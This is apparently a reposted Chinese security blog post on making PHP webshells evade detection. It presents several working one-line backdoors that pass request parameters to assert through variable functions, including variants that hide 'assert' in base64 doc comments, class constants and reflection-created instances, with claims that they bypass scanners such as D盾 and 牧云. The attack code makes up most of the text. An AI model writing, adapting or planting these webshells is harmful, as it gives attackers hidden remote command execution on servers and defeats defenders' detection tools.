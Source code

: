 # Webshell免杀的思考与学习

url：https://xz.aliyun.com/t/8684



# 前言

`webshell`对于渗透测试者来说是既是一种结束也是一种开始；一个免杀的`webshell`是我们在渗透测试过程中能否拿到目标权限的一个“前提”，首先webshell需要存活，其次是否能够执行命令，最后我们使用webshell管理工具时流量是否被拦截。所以免杀至关重要。

# 我的第一个一句话木马

很奇怪，我学习安全接触的的第一个一句话木马就是它：`$_GET[1]($_POST[2]);`，并且令我印象深刻。当时不太理解这个是因为PHP太灵活了，没想到还有这种写法：

```
$a = 'assert';
$a();
```

这个木马和上面的例子一样，是一种可变函数，`$_GET[1]`写为字符串`assert`，`$_POST[2]`写为命令`phpinfo()`。

- 值得一提的是assert和eval：
  手册写到eval()不是一个函数而是一个语言构造器，所以不能被可变函数调用；eval() 把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，**且必须以分号结尾**。
  而assert()是一个函数，所以它相比eval灵活许多，可以被可变函数调用，也可以被回调函数来调用。
  \## 思考
  我们通过webshell执行命令，是通过我们可控的参数来达到目的，而上面的一句话木马我们可控的部分为POST和GET参数。只要稍作改变就可以绕过D盾的检测

  ```
  <?php
  foreach (array('_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key =  $_value;
        $_key($_value);
    }
  }
  ```

  [![img](images/20200818233405224.png)](https://img-blog.csdnimg.cn/20200818233405224.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

- 可以看到这里并没有达到免杀效果

[![img](images/20200818233412362.png)](https://img-blog.csdnimg.cn/20200818233412362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

- 接下来我又写了一个正常的类与函数，再次扫描发现D盾已经检测不出来了

[![img](images/2020081823315525.png)](https://img-blog.csdnimg.cn/2020081823315525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

------

从可变函数的例子我们可以受到一些启发，通过翻阅PHP手册中的**反射**部分，我们可以得到一些可以利用的函数

# 少见的函数

## 获取注释

PHP中有这样一个函数，它可以获取php注释的内容
`public ReflectionClass::getDocComment( void) : string`
某些查杀引擎在查杀的时候，会做类似于编译器的优化，去掉我们所写的注释。毕竟注释是不能运行的，如果我们将参数通过非常规的方式传输进来，这样或许可以绕过一些查杀引擎呢。我们知道，安全狗查形，D盾查参，就拿D盾来试一试。

```
<?php

/**
* YXNzZXJ0YWE=
*/
class Example
{
    public function fn()
    {
    }
}

$reflector = new ReflectionClass('Example');

$zhushi = substr(($reflector->getDocComment()), 7, 12);
$zhushi = base64_decode($zhushi);
$zhushi = substr($zhushi, 0, 6);
//
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
        print_r($$_request);
    }
}
$zhushi($_value);
```

[![img](images/20200818233204122.png)](https://img-blog.csdnimg.cn/20200818233204122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

## 获取定义过的一个常量

`public ReflectionClass::getConstants(void) : array`
获取某个类的全部已定义的常量，不管可见性如何定义。

```
class Test
{
    const a = 'As';
    const b = 'se';
    const c = 'rt';

    public function __construct()
    {
    }
}
$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```

[![img](images/2020081823321410.png)](https://img-blog.csdnimg.cn/2020081823321410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

## 获取一组常量

`public ReflectionClass::getConstants(void) : array`
获取某个类的全部已定义的常量，不管可见性如何定义。

```
<?php

class Test
{
    const a = array(1=>'aS',2=>'se',3=>'rT');

    public function __construct()
    {
    }
}

$refl = new ReflectionClass('Test');

foreach ($refl->getConstants() as $key => $value) {
    foreach ($value as $key => $value1) {
        $value2.=$value1;
    }
}
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}
$value2($_value);
```

[![img](images/20200818233230823.png)](https://img-blog.csdnimg.cn/20200818233230823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

## 类与继承

P牛的《PHP动态特性的捕捉与逃逸》中提到了一个点，

[![img](images/20200818233245323.png)](https://img-blog.csdnimg.cn/20200818233245323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

除了PPT里提到的trick，还能想到什么呢？

- 面向对象中，类能够继承类的属性与方法。或许可以从这两个点入手，因为测试绕过了"牧云"，就暂时不放出来结果了。
  至于为什么可以绕过：我的猜想是这个函数不在黑名单中，语法分析不够完善，引擎认为我们的vuln代码并不能执行。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d6c24808-41dd-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d6c24808-41dd-1.gif)

## 创建类的实例

```
public ReflectionClass::newInstance( mixed $args[, mixed $...] ) : object`
简单地说，这个方法可以创建一个类的实例，同时该函数传递的参数会传递到该类的构造函数
需要注意的是，该方法传参和`call_user_func()`相似，不能使用引用类型传参，如果要使用引用类型使用另一个方法`newInstanceArgs
class Test1
{
    public function __construct($para)
    {
        //assert
    }
}

$class1 = new ReflectionClass("Test1");
$para = '';
//可控的$para
$class2 = $class1->newInstance($para);
```

基本的框架就是这样了，对框架进行变形也可绕过"牧云"。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d71c2a30-41dd-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d71c2a30-41dd-1.gif)